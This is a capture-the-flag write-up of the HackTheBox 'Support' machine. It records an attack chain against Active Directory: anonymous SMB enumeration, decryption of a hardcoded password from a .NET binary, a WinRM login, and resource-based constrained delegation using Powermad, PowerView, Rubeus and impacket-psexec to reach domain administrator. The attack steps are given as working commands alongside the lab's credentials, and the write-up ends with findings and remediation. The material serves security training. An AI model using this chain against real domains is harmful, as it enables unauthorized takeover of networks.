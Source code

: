 
# SUPPORT

![Support Info Card](Support_info-card.png)

This write-up details the attack path taken against the Support box on HackTheBox, outlining the techniques and vulnerabilities exploited to achieve remote code execution on the domain controller.

## Reconnaissance and Enumeration

The initial phase began with an **nmap** scan that revealed multiple open ports associated with Active Directory services.

```sh
❯ sudo nmap -sC -sV -T4 -vv -oA nmapScans/support 10.129.243.69
Command executed at: 2025-03-04 16:17:59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-04 16:17 PST
<SNIP>
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus 
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-05 00:18:11Z)
...
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Nmap done: 1 IP address (1 host up) scanned in 60.19 seconds
```

Next, SMB enumeration showed that anonymous access was enabled. While listing available shares, the `support-tools` share was discovered. This share contained various helpdesk installers and a notable file: `UserInfo.exe.zip`.

```sh
❯ smbclient -N -L //10.129.243.69
Command executed at: 2025-03-04 16:25:36

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
```

```sh
❯ smbclient -N //10.129.243.69/support-tools/
Command executed at: 2025-03-04 17:00:29
smb: \> dir
  .                                   D        0  Wed Jul 20 10:01:06 2022
  ..                                  D        0  Sat May 28 04:18:25 2022
  ...
  UserInfo.exe.zip                    A   277499  Wed Jul 20 10:01:07 2022
```

The file was then downloaded for further analysis.

## Analysis and Exploitation

Research revealed that `UserInfo.exe` is a tool designed to display Active Directory user information. Upon decompiling the executable using dnSpy, a set of hardcoded credentials was discovered.
![Encoded Password - dnSpy](EncodedPassword_dnSpy.png)

The `LdapQuery()` method queries `support.htb` with username `support` and a password obtained from the `getPassword()` method.
The code snippet below from the `getPassword()` method shows how an encrypted password is decrypted using a static key:

```csharp
public static string getPassword()
{
    byte[] array = Convert.FromBase64String(Protected.enc_password);
    for (int i = 0; i < array.Length; i++)
    {
        array[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
    }
    return Encoding.Default.GetString(array);
}

private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

A simple Python script was then used to reverse the encoding, resulting in the decrypted password:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode('ascii')

decoded_bytes = base64.b64decode(enc_password)
decrypted_bytes = bytearray(decoded_bytes)
for i in range(len(decoded_bytes)):
    decrypted_bytes[i] = decoded_bytes[i] ^ key[i % len(key)] ^ 223

decrypted_password = decrypted_bytes.decode('utf-8', errors='ignore')
print("Decrypted Password:", decrypted_password)
```

This script outputs:

```txt
Decrypted Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

With these credentials, an LDAP query was performed to retrieve additional account details for the `support` user.

```sh
❯ ldapsearch -x -H ldap://support.htb -D "support\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapsearch_basic.output
```

The LDAP output revealed the `support` user’s membership in the Shared Support Accounts group and provided the password:  
`support:Ironside47pleasure40Watchful`.

This password was then used to establish a WinRM session on port 5985:

```sh
❯ evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

A quick check on the desktop confirmed the user flag:

```powershell
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
38a856xxxxxxxxxxxxxx898dc8
```

### Escalation via GenericAll Privileges and RBCD

Further network enumeration with SharpHound, followed by analysis in BloodHound, confirmed that the `support` user was in the Shared Support Accounts group. This group had been granted GenericAll privileges over the domain controller (`DC.SUPPORT.HTB`), enabling the creation of a rogue machine to facilitate a Resource-Based Constrained Delegation (RBCD) attack.

![BloodHound Data](Bloodhound_GenericAll.png)

A rogue computer account, `FAKE01`, was added to the domain using PowerMad:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> import-module .\Powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force) -Verbose
```

Verification of the new account was performed using PowerView:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer FAKE01
```

Next, a security descriptor was crafted for FAKE01 to allow it to impersonate users on the domain controller:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-6101)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

This descriptor was then applied to `DC.SUPPORT.HTB`:

```powershell
Get-DomainComputer "DC.SUPPORT.HTB" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

With GenericAll privileges and RBCD in place, FAKE01 was used to impersonate the Administrator. An RC4 hash for FAKE01 was generated with Rubeus:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe hash /password:'P@ssw0rd123!' /user:fake01 /domain:SUPPORT.HTB
```

Then, a Kerberos ticket was requested for the Administrator account:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe s4u /user:fake01 /rc4:7DFA0531D73101CA080C7379A9BFF1C7 /impersonateuser:Administrator /msdsspn:cifs/DC.SUPPORT.HTB /ptt /nowrap
```

After confirming the ticket was cached using `klist`, the base64 kirbi ticket was converted to a ccache file:

```sh
❯ base64 -d administrator.ticket.kirbi.b64 > administrator.ticket.kirbi
❯ sudo impacket-ticketConverter administrator.ticket.kirbi administrator.ccache
```

Finally, remote code execution was achieved using impacket-PsExec:

```sh
❯ KRB5CCNAME=administrator.ccache sudo impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
```

Once inside, navigating to the Administrator desktop revealed the root flag:

```cmd
C:\Users\Administrator\Desktop> type root.txt
b34047xxxxxxxxxxxxx73db50
```

![Completion](completion.png)

## Findings and Remediation

### Findings

- **Anonymous SMB Access:** The configuration allowed anonymous listings, exposing sensitive shares.
- **Insecure File Sharing:** The `support-tools` share contained exploitable files, such as `UserInfo.exe.zip`.
- **Hardcoded Credentials:** The decompiled `UserInfo.exe` revealed hardcoded credentials that facilitated further exploitation.
- **Excessive AD Privileges:** The `support` user’s membership in a group with GenericAll rights enabled domain controller compromise via RBCD.

### Remediation

- **SMB Hardening:** Disable anonymous access and enforce strict authentication protocols.
- **Secure File Shares:** Limit access to sensitive shares to authorized users only.
- **Code Security:** Avoid embedding hardcoded credentials; instead, implement secure credential management and conduct regular code audits.
- **Active Directory Audits:** Regularly review and restrict group memberships and privileges, ensuring adherence to the principle of least privilege.

## Lessons Learned

This engagement highlights the risks inherent in misconfigured services and insecure coding practices. Decompiling .NET applications can easily expose sensitive data that developers may assume is hidden. Moreover, default domain settings—such as allowing the creation of multiple computer accounts and overly permissive rights—can be exploited to escalate privileges. With GenericAll access over critical systems, attackers can leverage RBCD to impersonate high-privilege accounts, leading to full network compromise.

